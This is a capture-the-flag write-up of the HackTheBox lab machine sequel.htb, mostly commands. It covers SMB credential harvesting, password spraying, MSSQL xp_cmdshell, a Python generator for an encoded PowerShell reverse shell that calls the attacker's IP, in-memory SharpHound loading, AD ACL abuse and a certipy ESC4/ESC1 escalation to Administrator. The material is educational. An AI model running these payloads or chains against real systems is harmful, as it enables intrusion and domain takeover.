


---
tags:
  - Windows
  - SMB
  - MSSQL
  - bloodhound
---

... is a easy assumed-breach HTB machine, where the provided credentials can be used to fetch files from a `SMB` service. These files provide multiple credentials, one of which is able to access the `mssql` service as a privileged user and obtain RCE. A config file then leads to actual `winrm` access. For the privilege escalation, the current user has write-permissions over a `CA_SVC` account, which can modify a certificate to be vulnerable.

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this (Output without `-sC`, as that would be too much):
```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2012-06-16 12:28:42Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb, Site: Default-First-Site-Name)
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb, Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb, Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```
As this output is quite verbose, i will break it down below:

- Port `139` and `445`: Usually both indicate `SMB`. Port `139` relies on legacy `NetBIOS` (support for older machines), port `445` is a newer version using `TCP/IP`. `SMB` is highly interesting for exploitation, as it allows access to files / printers over the network.
- Port `389` and `636`: Are used for `LDAP` and `LDAPS`. Are used in windows active-directory scenarios to authenticate users / authorize them to take certain actions.
- Port `1433`: Microsoft SQL server. Provides access to a database over the network, therefore a high priority target.
- Port `5985`: Port for `WinRM`. Comparable to `ssh`, usually exclusive to Windows. Interesting if credentials are found.

As the `-sCV` scan of the `ldap` service tells us that the domain `sequel.htb` (additionally, `dc01.sequel.htb` from the cut-out `-sC` scan) is being used, i add it to my `/etc/hosts` file to resolve it.
```bash
echo "$IP sequel.htb dc01.sequel.htb" | sudo tee --append /etc/hosts
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# echo "...": writes the specified string into STDOUT (terminal)
# | : redirect (pipe) the STDOUT of the left command into the STDIN of the right command
# sudo tee --append /etc/hosts: write the received STDIN into a file without overwriting it. requires sudo, as that file is critical to the system  
```

### Initial Exploitation
As with any windows machine, i first try enumerating the `SMB` service using `netexec`. As this machine is an `assumed breach` machine, i already have valid credentials so i can use them for this scan:
```bash
nxc smb sequel.htb -u 'sequel.htb\rose' -p 'KxEPkKe6R8su' --shares
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: the username to use. "rose" here, but append "sequel.htb\", as LDAP is in place!
# -p: the password to use. "KxEPkKe6R8su" here
# --shares: a flag which tells nxc to return a list of available shares.
```

The output of this command shows me the following shares:
```bash
Share           Permissions     Remark
-----           -----------     ------
Accounting Department READ            
ADMIN$                          Remote Admin
C$                              Default share
IPC$            READ            Remote IPC
NETLOGON        READ            Logon server share 
SYSVOL          READ            Logon server share 
Users           READ
```
The `Accounting Department` looks very out of place. I can interact with each share that i have `READ` access to using the following command:
```bash
smbclient -U 'sequel.htb\rose' --password='KxEPkKe6R8su' "//sequel.htb/Accounting Department"
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -U: username to use. here 'sequel.htb\rose' is a user on the LDAP (need to specify the domain)
# --password: specify rose's password
```

Within the `Accounting Department` share, i locate the two files `accounting_2024.xlsx` and `accounts.xlsx`. To view the contents of these files, i decided to use `visidata`. To install this, utility, i use `pip3` from within a `python venv` as follows:
```bash
python3 -m venv venv
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -m venv: creates a virtual python environment named venv, to download python packages. it can be deleted afterwards, so no changes are made
```

```bash
source venv/bin/activate
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# activates the virtual environment in the current bash
```

```bash
pip3 install visidata openpyxl
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# uses venv/bin/pip3 to install visidata and openpyxl, a library to read xlsx files
```

`visidata` can then be used on the file:
```bash
vd accounts.xlsx
```

Doing so gives me an error message on both files: `Oh dear! BadZipFile: Bad magic number for file header`. To fix this error, i find out what the magic number (file signature) for `xlsx` files is by googling. It turns out to be `50 4B 03 04`. Viewing the actual file headers using `hexedit accounts.xlsx`, i notice that they are `50 48 04 03`, which is the magic number for `zip` files. i quickly change the numbers to `50 4B 03 04` and save the changes using `CTRL+S`.

After viewing the repaired `accounts.xlsx` using `vd`, i get the following table:


I save each of these entries in a `user.txt` file:
```bash
angela
oscar
kevin
sa
```
and in a `passwords.txt` file:
```bash
0fwz7Q4mSpurIt99
86LxLBMgEWaKUnBG
Md9Wlq1E5bZnVDVo
MSSQLP@ssw0rd!
```
To find out if any of these are valid accounts in the active directory.

To deploy a password spraying attack using `netexec` against the `smb` service, i use the following command:
```bash
nxc smb sequel.htb -u users.txt -p passwords.txt --continue-on-success
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: List of usernames, will use each entry
# -p: List of passwords, will use each entry
# --continue-on-success: Will not stop when it finds valid credentials
```

This returns me the user `sequel.htb\oscar:86LxLBMgEWaKUnBG`. But sadly, this user does not have more permissions than the first user `rose`. To also enumerate the `mssql` service, i can use the same attack, but by specifying `mssql` instead of `smb`:
```bash
nxc mssql sequel.htb -u users.txt -p passwords.txt --continue-on-success --local-auth
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: List of usernames, will use each entry
# -p: List of passwords, will use each entry
# --continue-on-success: Will not stop when it finds valid credentials
# --local-auth: doesn't use the domain `sequel.htb`
```

This tells me that the user `sa:MSSQLP@ssw0rd!` is a valid user for the `mssql` service (which is expected, as `sa` stands for `SQL Admin`). To explore this service, i use the `mssqlclient` utility of the `impacket` suite as follows:
```bash
impacket-mssqlclient 'sa:MSSQLP@ssw0rd!@sequel.htb'
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# mssqlclient requires a target. the target is defined as:
# [[domain/]username[:password]@]<targetName or address>
```

> **_NOTE:_**  Exit the `venv` which was used for reading the `xlsx` file, as the needed packages for `mssqlclient` are not available there!

To check if the current user is able execute system commands, issue this SQL query:
```sql
SELECT IS_SRVROLEMEMBER('sysadmin');
```
In the case of the user `sa`, this is set to `1`. Which means we can execute the following commands in the `mssql` window to execute arbitrary system commands:
```bash
enable_xp_cmdshell
# and
xp_cmdshell whoami
```

As i would like a `shell` which is a bit more stable and interactive than the `xp_cmdshell`, i want to establish a reverse shell on this windows machine. To do so, i use the following python script `payload.py`:
```python
#!/usr/bin/env python
import base64
import sys

if len(sys.argv) < 3:
  print('usage : %s ip port' % sys.argv[0])
  sys.exit(0)

payload="""
$c = New-Object System.Net.Sockets.TCPClient('%s',%s);
$s = $c.GetStream();[byte[]]$b = 0..65535|%%{0};
while(($i = $s.Read($b, 0, $b.Length)) -ne 0){
    $d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);
    $sb = (iex $d 2>&1 | Out-String );
    $sb = ([text.encoding]::ASCII).GetBytes($sb + 'ps> ');
    $s.Write($sb,0,$sb.Length);
    $s.Flush()
};
$c.Close()
""" % (sys.argv[1], sys.argv[2])

byte = payload.encode('utf-16-le')
b64 = base64.b64encode(byte)
print("powershell -exec bypass -enc %s" % b64.decode())
```
This simple script takes your `IP` and a `port`, places them into the `powershell` reverse shell initiator (stored in the variable `payload` as a string), encodes the payload in `base64`, and returns a command on the screen which should be executed on the target machine.

It can be used with this CLI command:
```bash
python3 ./script.py <my-IP> 1337
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# <my-IP>: This feeds the provided IP into the reverse shell powershell command. find your own IP with `ip a`, located at `tun0` if using the VPN
# 1337: port 1337 is used for a connection, but can be an arbitrary port.
```

This returns a `powershell` command in the form of:
```powershell
powershell -exec bypass -enc CgAkAG...
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -exec: change the execution policy to "bypass". This means dont block anything, run this code no matter the policy
# -enc: the next argument is encoded in base64
```

Before executing this command on the target, make sure to start the `nc` listener:
```bash
nc -lvnp 1337
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -l: listen for inbound connects
# -v: verbose to get more info
# -n: numeric IP addresses, dont use DNS
# -p: specify listening port (1337)
```

And lastly, send the command into the `xp_cmdshell` to receive a more stable shell:
```bash
xp_cmdshell "powershell -exec bypass -enc CgAkAG..."
```
This gives me a `powershell` reverse shell as the user `sql_svc`. It is also nice that you can simply re-establish the connection by executing this command again if it gets lost.

### Lateral Movement
As the user `sql_svc` is only a service account, it has very limited capabilities on the system. An actual user account within the `C:\Users` directory is much more preferable.
The user `ryan` has a home directory, which is why i assumed that i need his account to gain `winrm` access to the machine.

I thought that maybe `ryan` used one of the passwords in the `passwords.txt` file, so i used `nxc` to do a password spraying attack on the `winrm` service as the user `ryan`:
```bash
nxc winrm sequel.htb -u ryan -p passwords.txt --continue-on-success
```
Sadly, this was not the case.

As i was checking the `C:\Users` directory, i noticed the directory `C:\SQL2019`, which is not ordinary on windows machines. Within that, i find the file `C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI`. Within that file, a new password revealed itself, which is `WqSZAF6CysDQbGb3`. I tried using `winrm` on `ryan`'s account with this password using the following command:
```bash
evil-winrm -i sequel.htb -u "sequel.htb\ryan" -p "WqSZAF6CysDQbGb3"
```
And this gave me the `powershell` as `ryan`, where i can read the `user.txt` on his Desktop!

### Privilege Escalation
On windows machines i first enumerate the privileges of the current account using `whoami /all`, but `ryan` didn't have any interesting ones. I also tried viewing his `ConsoleHost_history.hxt` (`bash_history` equivalent) using the following command:
```powershell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
But it did not exist.

I remembered that `LDAP` is being used in this CTF, which is why it is always a good idea to use `bloodhound` to get a map of all `LDAP` privileges which the current user `ryan` has. To use `bloodhound`, i first need a `bloodhound` scan. As i have `winrm` access, i can use `SharpHound.exe`. Using this instead of the `python`-based ingestor `bloodhound.py`, collects way more data!

To do so, i download the binary from the releases page of the [SharpHound GitHub](https://github.com/SpecterOps/SharpHound) onto my local machine. And serve it via a `http` server using the command `python3 -m http.server 1337`. To download and save the binary, i issue the following `powershell` command from `ryan`s terminal:
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<my_IP>:1337/SharpHound.exe')
```
This fetches the `SharpHound.exe` file from my `http` server and stores it in the variable `$data`. I issue the following command to load the `data` into memory:
```powershell
$assem = [System.Reflection.Assembly]::Load($data)
```
And lastly, i can execute `SharpHound` as follows:
```powershell
[Sharphound.Program]::Main(@("-d","sequel.htb","-c","All","--OutputDirectory","C:\Users\ryan","--ZipFileName","test.zip"))
```
This scans the domain `sequel.htb` with `All` collection methods! It will output the `zip` at `C:\Users\ryan` and name it `test.zip`.

To get this created `ZIP` file onto my local machine, i can use the `evil-winrm` command `download ...zip ./` to download the ZIP file to my local directory where i started the `evil-winrm` command!

#### Alternative way

- I could also simply download the binary `SharpHound.exe` using `ryans` `winrm` session as follows:

```powershell
upload SharpHound.exe .
```
And then use it:
```powershell
./SharpHound.exe -d sequel.htb -c All --OutputDirectory C:\Users\ryan --ZipFileName test.zip
```

- OR you could use `netexec`'s ingestor:

```bash
nxc ldap $IP -u ryan -p 'WqSZAF6CysDQbGb3' --bloodhound --collection All --dns-server $IP
```


After opening `bloodhound` and uploading the created `ZIP` file, I navigate to `</> CYPHER` to execute the following `cypher` query to show me all nodes which originate from the `ryan` account:
```Cypher
MATCH (n:User {name: "RYAN@SEQUEL.HTB"})-[r]->(m)
RETURN n, r, m
```
Or more easily, going to search and searching for `user:ryan`, and by clicking `Outbound Object Control`. Viewing `ryans` outgoing privileges reveals something interesting:


This reveals that `ryan` has the `WriteOwner` permission over the `ca_svc` account (`Certificate Authority Service`: a service account which is typically used to manage `Windows Certificates`). When clicking on `WriteOwner`, `bloodhound` reveals that i can do the following attacks:

- `Targeted Kerberoast`: Allows me to get the `kerberos` hash of the user which i can obtain to crack. As service accounts typically have very strong passwords, it is not usually crackable.
- `Force Change Password`: Change the password of the service account. Not very stealthy, but gives me password-based access.
- `Shadow Credentials attack`: Edits the `msDS-KeyCredentialLink` attribute, so that i can use my own cryptographic key to authenticate as that service using `Windows Hello`-like features.

Before attempting any of these attacks, i will click on the `ca_svc` account and investigate its `Outbound Object Controls` to find out if attacking it makes sense. And indeed, `ca_svc` is part of the `CERT PUBLISHERS` group, which has the `GenericAll` permissions over the `DUNDERMIFFLINAUTHENTICATION` certificate template! Because of this, i decided to `Force Change` the password of the `ca_svc` service. The following three steps are required for this:

1. Change the ownership of `ca_svc` so that it belongs to `ryan`.

```bash
impacket-owneredit -action write -new-owner ryan -target ca_svc sequel.htb/ryan:'WqSZAF6CysDQbGb3'
```

2. As `ryan` owns `ca_svc`, he is allowed to edit the `DACL`, which can give him `GenericAll` permissions, allowing him to do anything with `ca_svc` (ability to perform the attacks mentioned above).

```bash
impacket-dacledit -action write -rights FullControl -principal ryan -target ca_svc sequel.htb/ryan:'WqSZAF6CysDQbGb3'
```

3. Change the password of `ca_svc` to `password123`.

```bash
net rpc password ca_svc password123 -U sequel.htb/ryan --password='WqSZAF6CysDQbGb3' -S sequel.htb
```

Now with the credentials to the `ca_svc` account changed, i can perform a `ESC4` attack by modifying the attributes of the certificate template, allowing me to impersonate the administrator account! An `ESC4` attack is not an mis-configuration within the certificate, but a mis-configuration of the write-permissions on a certificate, allowing certain users to modify it to become mis-configured!

To do this, a tool named `certipy` can be used! (install with `pip3 install certipy-ad` in `venv)`. The following command edits the `DUNDERMIFFLINAUTHENTICATION` certificate template so that it is vulnerable:
```bash
certipy template -u ca_svc -p password123 -template DUNDERMIFFLINAUTHENTICATION -write-default-configuration -dc-ip $IP
```
After making it vulnerable to `ESC1` (Certificate allows you to impersonate other users), the following `certipy` command requests a certificate of the user `Administrator`:
```bash
certipy req -u ca_svc@sequel.htb -p password123 -dc-ip $IP -target $IP -ca 'SEQUEL-DC01-CA' -template DUNDERMIFFLINAUTHENTICATION -upn 'administrator@sequel.htb'
```

This gives me the `administrator.pfx` file. Using this file, i can fetch the hash of the `Administrator` using this `certipy` command:
```bash
certipy auth -pfx administrator.pfx -dc-ip $IP
```
It would be possible to try and get the clear-text password of the user by cracking this hash, but it is not needed, as i can `Pass-The-Hash` to get a `winrm` login as follows:
```bash
evil-winrm -i sequel.htb -u "sequel.htb\Administrator" -H <right-part-of-hash>
```
This gives me a `powershell` as the `Administrator`!